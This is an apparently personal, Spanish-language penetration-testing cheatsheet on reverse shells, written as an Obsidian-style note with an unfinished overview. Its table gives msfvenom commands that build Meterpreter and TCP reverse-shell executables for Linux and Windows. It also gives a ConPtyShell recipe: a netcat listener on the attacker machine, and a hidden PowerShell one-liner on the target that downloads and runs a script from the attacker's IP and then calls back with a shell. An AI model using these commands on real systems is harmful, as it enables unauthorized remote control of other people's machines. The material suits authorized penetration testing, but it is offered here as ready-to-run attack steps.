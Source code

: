 ```yaml
---
aliases:
tags:
  - type/cheatsheet
primary categories:
  - "[[Penetration Test]]"
secondary categories:
  - "[[Pre-Exploitation|Pre-Explotación]]"
tertiary categories:
  - "[[Payload Generation]]"
type: CheatSheet
linked:
---
```

# Reverse Shells

***

## Cheatsheet

| **Acción**                                                                                                                                                                                                                                                                                                                                                                     | **Descripción**                                               |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------- |
| https://www.revshells.com/                                                                                                                                                                                                                                                                                                                                                     | **Generador online de reverse shells**.                       |
| `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<ip> -f elf -o shell LPORT=<port>`                                                                                                                                                                                                                                                                                        | **Meterpreter reverse shell** para Linux como ejecutable ELF. |
| `msfvenom -p windows/x64/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > shell.exe`                                                                                                                                                                                                                                                                                         | **Reverse shell TCP** para Windows como ejecutable `.exe`.    |
| En la máquina atacante:<br>[Descargar ConPtyShell.ps1](https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1)<br>`stty raw -echo; (stty size; cat) \| nc -lvnp <port>`<br><br>En la máquina de destino:<br>`powershell.exe -WindowStyle Hidden IEX(IWR http://<ip>/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <ip> <port>` | <br><br><br>ConPtyShell #porhacer                             |

---

## Artículos relacionados

- **MSFVenom:** Para generar payloads de reverse shell más personalizables.
    

---

## Overview

****TODO****